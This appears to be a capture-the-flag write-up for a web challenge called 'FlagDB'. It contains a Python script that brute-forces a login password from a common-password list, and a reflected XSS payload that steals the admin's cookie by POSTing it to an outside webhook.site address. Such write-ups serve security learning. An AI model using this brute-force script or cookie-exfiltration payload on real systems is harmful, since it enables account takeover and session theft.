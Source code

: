 # FlagDB

Here we knew that Jammie was the username so in order to connect to the site we had to figure out the password.

So, we made a script that automatically brute forces passwords from this git: https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/Pwdb_top-10000.txt


import requests

url = "http://141.85.224.118:7081/"
wordlist = "passwords.txt"  
data_field = "password"    

# First, get the baseline response length
baseline = requests.post(url, data={data_field: "wrongpassword"}).text
baseline_length = len(baseline)

print(f"[i] Baseline response length: {baseline_length}")

with open(wordlist, "r") as file:
    for password in file:
        password = password.strip()
        data = {data_field: password}
        
        response = requests.post(url, data=data)
        response_length = len(response.text)

        print(f"[-] Tried: {password} | Length: {response_length}")

        if response_length != baseline_length:
            print(f"[+] Possible match! Password: {password}")
            break


And then we are logged in as Jamie, and we figure out that we need to contact the admin on staff @ web with this link to steal the cookie and steal the session of admin by using this link:

http://141.85.224.118:7081/?nickname=<script>fetch('/flag').then(r=>r.text()).then(d=>fetch('https://webhook.site/6a985bb3-a95b-439f-9de3-791071bb4aea',{method:'POST',body:document.cookie}))</script>

![img](https://media.discordapp.net/attachments/1392091689140752385/1393635384272879666/image.png?ex=68753518&is=6873e398&hm=3b9c4848bb9ad681405d854c2e43df80c7798159c2b897a60ce1e0ef11072397&=&format=webp&quality=lossless)
